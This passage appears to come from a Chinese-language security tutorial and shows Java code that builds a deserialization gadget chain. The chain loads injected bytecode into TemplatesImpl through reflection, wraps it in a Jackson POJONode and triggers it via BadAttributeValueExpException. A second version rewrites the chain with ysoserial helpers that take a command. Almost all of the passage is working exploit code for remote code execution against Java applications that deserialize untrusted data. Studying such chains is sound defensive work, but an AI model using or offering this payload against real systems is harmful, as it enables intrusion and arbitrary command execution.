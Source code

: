 ```java
        byte[] bytes = ctClass.toBytecode();
        // 2、创建TemplatesImpl类利用反射获取私有属性并设置
        Templates templatesImpl = new TemplatesImpl();
        Field bytecodes = templatesImpl.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templatesImpl,new byte[][]{bytes});
        Field name = templatesImpl.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templatesImpl,"111");
        Field tfactory = templatesImpl.getClass().getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templatesImpl,null);
        POJONode jsonNodes = new POJONode(templatesImpl);
        // 3、BadAttributeValueExpException提供readObject入口
        BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
        Field val = exp.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        // 4、序列化
        serial(exp);
    }
    // serial_method
    public static byte[] serial(Object o) throws IOException{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        return baos.toByteArray();
    }
}
```

4、使用ysoserial重写上面的代码

> 在ysoserial中作者已经封装了一些方法，方便我们直接调用

```java
// Gadgets#createTemplatesImpl方法创建TemplatesImpl类，在ysoserial中该方法已经封装了上面代码的1、2步，这里我们传入正确的参数后直接调用即可
final TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command,TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
POJONode jsonNodes = new POJONode(templatesImpl);
// 上面代码的第3步
BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
Field val = exp.getClass().getDeclaredField("val");
val.setAccessible(true);
val.set(exp,jsonNodes);
// 序列化，可以直接调用PayloadRunner#run方法
PayloadRunner.run(test.class, args);
```

## 0x03 踩坑
